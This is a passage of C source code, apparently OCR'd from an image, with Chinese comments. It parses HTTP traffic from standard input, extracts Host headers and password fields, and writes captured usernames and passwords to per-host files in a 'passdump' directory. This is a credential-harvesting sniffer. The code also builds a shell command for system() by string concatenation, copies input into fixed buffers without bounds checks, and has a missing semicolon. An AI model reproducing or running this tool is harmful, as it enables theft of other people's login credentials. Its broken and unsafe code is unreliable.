```
    FILE *fp = fopen(path,"a");
    fputs("\r\n",fp);
    fputs(user,fp);
    fputs("\r\n",fp)
    fputs(pass,fp);
    fputs("\r\n",fp);
    fflush(stdout);
    fclose(fp);
}

//写文件，以host命名，因为是直接读的Host: ***.com，因此去掉前面的前缀
void update_log(char *basepath,char *host,char *user,char *pass)
{
    char tmppath[1629];
    strcpy(tmppath,basepath);
    strcat(tmppath,"/passdump/");
    writeLog(strcat(tmppath,host+6),user,pass);
}


int main()
{
    char basepath2[128];
    char basepath[128];
    char buffer[1629]="0";
    char pass[1629]="0";
    char pass2[1629]="0";
    char host[1629]="0";
    char host2[1629]="0";
    int flag=0;

    char mkdir[128]="mkdir "; 

    get_basepath(basepath);

    strcat(mkdir,basepath);
    strcat(mkdir,"/passdump");

    //先保证存在保存的文件夹
    system(mkdir);

    while(1)
    {
        fgets(buffer,1628,stdin);
        //如果是空行，代表一个数据包结束 或者 紧接着POST内容
        if(strcmp(buffer,"\n")==0)
        {
            //已经出现了记录？写文件然后清空当前密码记录
            if((strcmp(host,"0")!=0)&&(strcmp(pass,"0")!=0))
            {
                //干掉referer，免得一个密码记录好多次
                if(!strstr(pass,"Referer:"))
                {
                    strip_pass(basepath,pass,host);
                    printf("\n\n");
                }
                strcpy(pass,"0");
            }
        }
        else if(strstr(buffer,"Host:"))
        {
            //去掉0x0a和0x0d
            buffer[strlen(buffer)-2]='\0';
```